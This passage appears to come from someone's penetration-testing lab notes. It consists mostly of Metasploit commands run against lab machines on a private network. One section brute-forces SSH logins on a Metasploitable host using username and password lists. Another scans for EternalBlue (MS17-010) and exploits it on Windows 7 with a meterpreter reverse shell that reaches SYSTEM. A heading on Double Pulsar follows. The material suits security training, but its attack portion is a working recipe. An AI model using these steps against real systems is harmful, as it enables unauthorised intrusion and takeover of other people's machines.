 	$ set RHOSTS 172.16.116.132

	$ exploit - hacked


## SSH brute forcing (metasploitable)

	$ use auxiliary/scanner/ssh/ssh_login

	$ options - see the 'Required' section

	$ nano usernames.txt - create username list

	$ nano passwords.txt - create password list

	$ set PASS_FILE /home/hacker/Desktop/passwords.txt

	$ set USER_FILE /home/hacker/Desktop/usernames.txt

	$ set RHOSTS 172.16.116.132

	$ set VERBOSE true - to see even failed combinations attepmts

	$ run

	$ sessions - to see where we have a shell session ; session ID

	$ sessions -i 1 - will start interacting with the shell - hacked

	$ ssh msfadmin@172.16.116.132

/// test for other vulnerabilities 11.5


## Windows 7 exploitation

+ EternalBlue

--

	$ use auxiliary/scanner/smb_ms17_010 -  to see if our target is vulnerable to EternalBlue

	$ set RHOSTS 172.16.116.13x

	$ run

	$ search eternalblue

	$ use exploit/windows/smb/ms17_010_eternalblue - it will default to x64 architecture

	$ set payload windows/meterpreter/reverse_tcp

	$ show options

	$ set RHOSTS 172.16.166.13x

	$ run

	> getuid - SYSTEM - highest level account in windows (meterpreter shell)

+ Double Pulsar attack

-- bit better exploit for both x64 and x32 Windows architectures ; we need to download the exploit because it's not present in Metasploit
	